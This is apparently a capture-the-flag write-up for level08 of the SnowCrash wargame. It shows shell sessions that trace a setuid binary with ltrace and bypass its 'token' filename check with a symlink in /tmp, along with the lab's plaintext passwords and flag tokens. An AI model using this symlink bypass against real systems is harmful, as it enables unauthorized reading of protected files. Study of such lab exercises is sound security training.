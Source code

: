 ssh level08@ip -p 4242

su level08

password: fiumuikeil55xe9cu4dood66h


```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
level08@SnowCrash:~$ echo "`ls`" > /tmp/a
level08@SnowCrash:~$
level08@SnowCrash:~$ ./level08 /tmp/a
file
level08
token
level08@SnowCrash:~$ echo "`getflag`" > /tmp/a
level08@SnowCrash:~$
level08@SnowCrash:~$ ./level08 /tmp/a
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
level08@SnowCrash:~$
level08@SnowCrash:~$ ltrace ./level08 /tmp/a
__libc_start_main(0x8048554, 2, 0xbffff7a4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/tmp/a", "token")                                                   = NULL
open("/tmp/a", 0, 014435162522)                                             = 3
read(3, "Check flag.Here is your token : "..., 1024)                        = 89
write(1, "Check flag.Here is your token : "..., 89Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
)                         = 89
+++ exited (status 89) +++
level08@SnowCrash:~$
level08@SnowCrash:~$ ltrace ./level08 /tmp/token
__libc_start_main(0x8048554, 2, 0xbffff7a4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/tmp/token", "token")                                               = "token"
printf("You may not access '%s'\n", "/tmp/token"You may not access '/tmp/token'
)                           = 32

```

ln [options] file-name link-name

```
ln -s /home/user/level08/token /tmp/toktok
./level08 /tmp/toktok
    quif5eloekouj29ke0vouxean
```

level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f



(gdb) x/s *(((char **)0xbffff794) + 1)
0xbffff8d1:	 "token"